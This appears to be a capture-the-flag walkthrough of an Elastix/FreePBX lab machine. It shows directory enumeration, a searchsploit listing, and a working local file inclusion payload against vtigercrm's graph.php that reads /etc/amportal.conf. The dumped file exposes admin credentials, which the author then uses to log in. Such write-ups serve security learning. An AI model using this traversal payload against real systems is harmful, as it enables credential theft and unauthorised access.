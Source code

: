 ```
/configs (Status: 301)
/favicon.ico (Status: 200)
/help (Status: 301)
/images (Status: 301)
/lang (Status: 301)
/libs (Status: 301)
/mail (Status: 301)
/modules (Status: 301)
/panel (Status: 301)
/recordings (Status: 301)
/robots.txt (Status: 200)
/static (Status: 301)
/themes (Status: 301)
/var (Status: 301)
/vtigercrm (Status: 301)
```
- `/admin` - leave password empty -> **FreePBX 2.8.1.4**
- `/configs/` 
```
[TXT]	default.conf.php	01-Nov-2011 21:56 	3.1K
[TXT]	email.conf.php	01-Nov-2011 21:56 	2.5K
[TXT]	languages.conf.php	01-Nov-2011 21:56 	2.8K
```
- `/mail` Welcome to RoundCube Webmail
- `/help` -> system -> backup -> .tar from 2010
- `/vtigercrm` : vtiger CRM 5.1.0


let do searchsploit for Elastix
```console
bibo318@parrot:/opt$ searchsploit Elastix
Elastix 2.2.0 - 'graph.php' Local File Inclusion                | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                               | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                              | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution          | php/webapps/18650.py
```
I view `Elastix 2.2.0 - 'graph.php' Local File Inclusion ` and it seem like this could works. so lets visit
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
view source to see the content with line break!
```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```
yep we got admin credential `admin:jEhdIekWmdjE`. let log into `Elastix`, ofc it works!! on the admin page I found this!